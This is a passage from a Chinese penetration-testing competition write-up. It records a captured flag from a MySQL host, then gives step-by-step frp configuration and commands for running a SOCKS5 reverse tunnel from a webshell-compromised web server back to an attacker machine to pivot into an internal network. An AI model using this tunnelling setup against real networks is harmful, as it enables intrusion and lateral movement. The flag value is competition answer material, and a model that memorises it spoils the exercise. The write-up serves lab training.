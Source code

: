 mysql主机的flag文件

位置：`/root/flag.txt`

```
flag{6AAD-36D4-DC1E-05DC-B54A-3E8C-1E06-0DB5}
```



#### 阶段二：业务区渗透

##### 任务4：业务区信息收集（T1040-网络嗅探、T1105-传输工具、T1095-非应用层协议）

搭建frp代理，进行内网渗透。

工具位置：`C:\Users\Administrator\Desktop\工具\流量代理\frp\frp_0.37.0_windows_amd64\frp_0.37.0_windows_amd64`

编辑frpc.ini，上传frpc.exe和frpc.ini到web服务器（蚁剑上传）。

server_addr为攻击机IP。

```
[common]
server_addr = 56.47.34.x
server_port = 7000

[plugin_socks5]
type = tcp
remote_port = 7891
plugin = socks5
```

![image-20220530102354000000-1656056060816999.png](img/中小型企业环境网络安全渗透赛 local/ff09942881d8e9a57240713a68a812b6.png)

win10攻击机运行frps（token删掉或者frpc和frps的token要匹配）

```
frps -c frps.ini
```

![image-20220528124712000000-1656056062519445.png](img/中小型企业环境网络安全渗透赛 local/036abd29b56cf8588ecafd7949936fb4.png)

在web服务器上执行命令（蚁剑执行）

```
frpc -c frpc.ini
```

![image-20220530102820000000-1656056064436224.png](img/中小型企业环境网络安全渗透赛 local/ec4d409755bdd6e9453ed5b5768c5e3f.png)

代理成功之后，配置Proxifier在攻击机上配置全局代理到192.168.0.0/16网段

![image-20220530103312000000-1656056066370021.png](img/中小型企业环境网络安全渗透赛 local/7b69355572472085887b0214147e51d4.png)

先添加代理服务器数据，完成后点击OK，弹出的两个是否设为代理规则的提示框都选否。

![image-20220528130908000000-1656056068294632.png](img/中小型企业环境网络安全渗透赛 local/307ba1c73130db5e7491d41a99809946.png)
